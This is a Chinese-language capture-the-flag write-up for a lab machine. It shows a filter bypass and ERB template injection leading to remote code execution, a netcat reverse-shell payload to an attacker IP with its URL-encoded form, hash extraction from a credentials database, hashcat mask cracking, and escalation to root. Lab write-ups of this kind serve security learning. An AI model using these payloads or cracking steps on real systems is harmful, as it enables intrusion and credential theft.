



```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A -O  10.10.11.253
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-16 03:10 EDT
Nmap scan report for 10.10.11.253
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Aggressive OS guesses: AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 4.15 - 5.6 (93%), Linux 5.3 - 5.4 (93%), Linux 2.6.32 (93%), Linux 5.0 - 5.3 (92%), Linux 3.1 (92%), Linux 3.2 (92%), Linux 5.4 (90%), Linux 5.0 (90%), Adtran 424RG FTTH gateway (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   294.67 ms 10.10.16.1
2   294.72 ms 10.10.11.253

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.98 seconds


```


web底部显示软件版本：Powered by WEBrick 1.7.0

来到/weighted-grade-calc这个唯一有输入框的页面

尝试添加引号触发服务端恶意行为检测提示 ：Malicious input blocked



在web页面添加引号触发框架报错提示


查了一下Sinatra是一个ruby的web开发框架

用```%0a```可以绕过



问GPT知道这个框架使用的模版系统是ERB

根据[这篇文章](https://trustedsec.com/blog/rubyerb-template-injection)


使用payload：```sci%0a<%= 7 * 7 %>```,urlencode后是```sci%0a%3C%25%3D%207%20*%207%20%25%3E```

得到一个模板命令执行




下面payload拿到revshell,参考[这里](https://exploit-notes.hdks.org/exploit/web/security-risk/erb-ssti/)
```
<%= system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f"); %>
```

urlencode
```
sci%0a%3C%25%3D%20system(%22rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.4%20
```

拿到foodhold
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 443                    
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.253] 36496
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)

```


# 提权

由上面id命令可知，我们当前在sudo用户组，但是执行sudo需要用户命令


一封邮件
```
susan@perfection:/tmp$ cat /var/mail/susan 
cat /var/mail/susan 
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student

```

按这个格式，Susan的密码格式应该是：susan_nasus_xxxxx

发现一个sqllite数据库
```
susan@perfection:/tmp$ strings /home/susan/Migration/pupilpath_credentials.db 
<ngs /home/susan/Migration/pupilpath_credentials.db 
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f

```


把哈希复制出来

使用hashcat
```
 hashcat -m 1400 hash.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d?d"
```

解出来密码是：susan_nasus_413759210


提权到root
```
susan@perfection:/tmp$ sudo su
sudo su
[sudo] password for susan: susan_nasus_413759210

root@perfection:/tmp# 

```